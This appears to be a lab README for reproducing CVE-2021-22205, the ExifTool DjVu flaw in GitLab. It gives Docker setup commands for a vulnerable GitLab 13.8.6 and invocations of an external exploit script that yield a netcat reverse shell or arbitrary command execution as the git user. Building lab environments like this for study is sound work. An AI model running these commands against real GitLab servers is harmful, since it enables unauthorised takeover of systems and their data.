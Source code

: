 # ExifTool DjVu (CVE-2021-22205)
## Summary

CVE-2021-22205 affects exiftool's DjVu "Copyright" metadata field that results in code execution. In Gitlab EE/CE versions starting from 11.9 and patched in 13.10.3, 13.9.6, and 13.8.8, an attacker is able to upload an image to the `/uploads/user` unauthenticated, where the image is then analyzed by the vulnerable version of exiftool. The resulting code is executed as the `git` user, which provides full access to the gitlab instance, including the administrator `gitlab-rails` console.

## Prerequisites

The prerequisite for the setup is to have docker installed and running. For the attack path, the only prerequisite is a vulnerable version of Gitlab installed.

## Setup

First, clone or grab the `gitlab-setup.sh` file from [this repository.](https://github.com/NukingDragons/gitlab-setup)

To perform an online install of the vulnerable Gitlab instance, run the following command (Set the hostname to your preference, or to the IP of the interface you wish to host this on):
```bash
./gitlab-setup.sh -v 13.8.6-ce.0 -H gitlab.example.com
```

By default, the docker will start automatically on the specified hostname.

To perform an offline installation, first run the following command on a machine that *DOES* have an internet connection:

```bash
./gitlab-setup.sh -v 13.8.6-ce.0 -e --fetch-only
```

Then, move *BOTH* the `gitlab-setup.sh` file and the resulting `gitlab-ce-13.8.6-ce.0.docker` file to the offline machine.

Once the files have been moved over, install and start the Gitlab instance by running the following command on the offline machine:

```bash
./gitlab-setup.sh -i /path/to/gitlab-ce.13.8.6-ce.0.docker -H gitlab.example.com
```

Then, browse to the page given the specific hostname, and set the administrator password. Once it's been set, the instance will be fully functional. Be sure to log in and adjust any settings, add users, and/or add any repositories that are needed.

## Execution

### Method 1 - Reverse Shell

To exploit a vulnerable instance of Gitlab, first clone [this repository](https://github.com/NukingDragons/gitlab-cve-2021-22205), or download the bash script.

First, start a local netcat listener on your port of choice:

```bash
nc -lvnp 1337
```

Then, to obtain a shell, simply run the following command:

```bash
./cve-2021-22205.sh -t http://gitlab.example.com -i <your interface IP> -p <your specified port>
```

Alternatively, the script will deduce the IP for you and the port will be assumed to be 1337 if unspecified.

![image](./images/Pasted%20image%2020231101113528.png)

#### Indicators of Compromise

TODO

### Method 2 - Any Command

To exploit a vulnerable instance of Gitlab, first clone [this repository](https://github.com/NukingDragons/gitlab-cve-2021-22205), or download the bash script.

To run a custom command against the target, run the following command:

```bash
./cve-2021-22205.sh -t http://gitlab.example.com -c "<your command here>"
```

#### Indicators of Compromise

TODO